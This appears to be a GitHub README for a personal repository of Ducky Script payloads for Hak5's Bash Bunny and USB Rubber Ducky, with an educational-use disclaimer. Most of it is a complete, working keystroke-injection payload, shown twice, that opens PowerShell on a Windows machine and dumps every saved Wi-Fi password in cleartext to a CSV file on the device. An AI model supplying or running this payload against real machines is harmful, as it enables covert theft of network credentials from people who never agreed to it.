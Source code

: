 # Steven's Custom Ducky Script Repository

This repository contains **custom Ducky Scripts** designed for use with **Hak5's Bash Bunny** and **USB Rubber Ducky**. These scripts are intended for **educational purposes, ethical hacking, penetration testing, and cybersecurity research**.



## ⚠ Disclaimer

 **Legal & Ethical Use Notice**  
These scripts are provided **strictly for educational and research purposes only**. Unauthorized use of these scripts to access systems without permission is **illegal and punishable by law**. By using this repository, you **agree** to only use these scripts in **controlled environments** (e.g., on your own devices or with explicit permission). I, the author, **do not take responsibility** for any misuse of these scripts. Thank you!



## payload.txt



## Bash Bunny Network Key Dumper (Windows) 
Payload.txt handles overall attack logic, device modes, and script execution.
```ducky
# set up payload
LED SETUP
GET SWITCH_POSITION
ATTACKMODE HID STORAGE

# run duckysript file 'ducky-script.txt'
LED STAGE1
QUACK ${SWITCH_POSITION}/ducky-script.txt

# end payload
LED FINISH
```

Ducky-script.txt contains keystroke injection commands (Ducky Script syntax).
```ducky
GUI r
DELAY 500
STRING powershell -NoProfile 
ENTER
DELAY 500

STRING $u=gwmi Win32_Volume|?{$_.Label -eq'BashBunny'}|select name;cd $u.name
ENTER
DELAY 500
STRING cd loot
ENTER
DELAY 500

STRING (netsh wlan show profiles) | Select-String ":(.+)$" | %{$name=$_.Matches.Groups[1].Value.Trim(); $_} | %{(netsh wlan show profile name="$name" key=clear)}  | Select-String "Key Content\W+\:(.+)$" | %{$pass=$_.Matches.Groups[1].Value.Trim(); $_} | %{[PSCustomObject]@{ PROFILE_NAME=$name;PASSWORD=$pass }} | Export-Csv -NoTypeInformation -Path ".\$env:UserName`_WiFiPasswords.csv"; exit
ENTER

```

## Bash Bunny Network Key Dumper (Windows) 
Payload.txt handles overall attack logic, device modes, and script execution.
```ducky
# set up payload
LED SETUP
GET SWITCH_POSITION
ATTACKMODE HID STORAGE

# run duckysript file 'ducky-script.txt'
LED STAGE1
QUACK ${SWITCH_POSITION}/ducky-script.txt

# end payload
LED FINISH
```

Ducky-script.txt contains keystroke injection commands (Ducky Script syntax).
```ducky
GUI r
DELAY 500
STRING powershell -NoProfile 
ENTER
DELAY 500

STRING $u=gwmi Win32_Volume|?{$_.Label -eq'BashBunny'}|select name;cd $u.name
ENTER
DELAY 500
STRING cd loot
ENTER
DELAY 500

STRING (netsh wlan show profiles) | Select-String ":(.+)$" | %{$name=$_.Matches.Groups[1].Value.Trim(); $_} | %{(netsh wlan show profile name="$name" key=clear)}  | Select-String "Key Content\W+\:(.+)$" | %{$pass=$_.Matches.Groups[1].Value.Trim(); $_} | %{[PSCustomObject]@{ PROFILE_NAME=$name;PASSWORD=$pass }} | Export-Csv -NoTypeInformation -Path ".\$env:UserName`_WiFiPasswords.csv"; exit
ENTER

```




## 🔗 References

- [Hak5 Official Website](https://hak5.org/)
- [USB Rubber Ducky Documentation](https://docs.hak5.org/)
- [Bash Bunny Documentation](https://docs.hak5.org/bash-bunny/)

